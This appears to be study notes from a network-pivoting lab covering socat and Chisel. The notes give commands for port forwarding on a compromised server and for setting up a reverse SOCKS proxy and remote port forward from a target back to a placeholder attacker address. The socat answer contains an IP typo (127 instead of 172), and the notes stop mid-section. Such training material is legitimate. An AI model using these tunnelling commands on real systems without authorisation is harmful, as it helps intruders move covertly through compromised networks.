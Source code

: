 Example

What command would you use to forward TCP port 2222 on a compromised server, to 172.16.0.100:22, using a static copy of socat in the current directory, and backgrounding the process (easy method)?

    ./socat tcp-l:2222,fork,reuseaddr tcp:127.16.0.100:22


## Task 14  Pivoting Chisel

Chisel is another tool to proxy, tunnel and port forward through compromised systems regardless of SSH access. Written in GoLang and is used via static binaries on Linux and Windows.

Download Chisel: https://github.com/jpillora/chisel/releases
(decompress with gunzip and chmod [+x)](https://paper.dropbox.com/doc/x-l1wfYymiXlrYya8iFeNoL) 

**Chisel - Clients/Servers**

Server Help:

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1648948100118_image.png)


Client Help:

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1648948129924_image.png)


**Revers SOCKS Proxy**
On attacking box:

    ./chisel server -p LISTEN_PORT --reverse & #add LISTEN_PORT

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1648948752835_image.png)


on Target:

    ./chisel client ATTACKING_IP:LISTEN_PORT R:socks &

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1648948762229_image.png)


Add information to `/etc/proxychains.conf` to include the new socks proxy

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1648949050919_image.png)


**Remote Port Fowarding**
Set up a remote port forward from compromised target to forward.

Attacking box:

    ./chisel server -p LISTEN_PORT --reverse &

Target box:

    ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &


**Local Port Forward**
Conenct from attacking machine to chisel server listening on 22 SSH.
